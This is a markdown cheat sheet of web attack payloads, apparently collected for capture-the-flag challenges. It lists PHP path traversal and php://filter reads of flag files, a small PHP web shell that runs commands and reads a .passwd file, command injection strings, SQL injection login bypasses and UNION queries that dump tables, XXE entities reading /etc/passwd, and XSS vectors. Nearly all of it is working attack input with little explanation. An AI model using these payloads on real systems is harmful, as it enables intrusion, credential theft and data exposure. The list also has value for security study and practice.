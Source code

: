 ### PHP related:
- /?cat=dog
- /index.php?file=hint.php?/../../../../../../../../ffffllllaaaagggg
- /?file=php://filter/read=convert.base64-encode/resource=flag.php
- /secr3t.php?file=php://filter/read=convert.base64-encode/resource=flag.php
- "' and die(system('cat .passwd')) or '"
- PNG
``<?php
 echo exec("ls -la");
	exec("cd ..");
	echo exec("la -la");
	echo ("\n hello");
	echo exec ("cat ../../../.passwd")
?>``
- https://book.hacktricks.xyz/pentesting-web/file-upload#from-file-upload-to-other-vulnerabilities

### Command injection:
- 127.0.0.1;cd ..;cd ..;cd ..;ls
- /?ip=127.0.0.1;cat$IFS$1\`ls\`

### SQL injection: 
- https://github.com/payloadbox/sql-injection-payload-list
- username:`  admin  `, password: `anything` (register)
- username: `ad'||'min`, password: `a' IS NOT 'b`
- SELECT * FROM exploits WHERE ID=`1 UNION SELECT 1,2--`
- SELECT * FROM exploits WHERE ID=`1 AND 1=2 UNION SELECT 1,2,3--`
- SELECT * FROM exploits WHERE ID=`1 AND 1=2' UNION SELECT version(),user(),3--'`
- ' UNION SELECT GROUP_CONCAT(table_name), CURRENT_TIME FROM information_schema.tables WHERE table_schema=DATABASE() AND '1'='1
- ' UNION select flag, CURRENT_TIMESTAMP from flags where '1'='1

### XEE:
Format:  `<!ENTITY entity-name SYSTEM "URI/URL">`

Payload: `<?xml version="1.0" encoding="UTF-8"?>
                              <!DOCTYPE note [<!ENTITY something SYSTEM "/etc/passwd">]>
                                <data>
                                  <ID>
                                    &something;
                                  </ID>
                                </data>`
                                
Examples: 

`<!DOCTYPE note [
	<!ENTITY xxe SYSTEM "file:///flag.txt">
]> 
<query>
  <search></search>
  <country>&xxe;</country>
</query> `                               
### XSS:
- `#<script>alert('XSS')</script>`
- `#<img src=x onerror=alert('XSS')>`
- `#<svg/onload=alert('XSS')>`
- `#<p onclick=alert('XSS')>Click me</p>`
- `#<body onload=alert('XSS')>`
- `#</p><script>alert('XSS')</script>`
- `#<img src="x" onerror="alert('XSS')">`
- `#%25253Cscript%25253Ealert(1)%25253C/script%25253E`
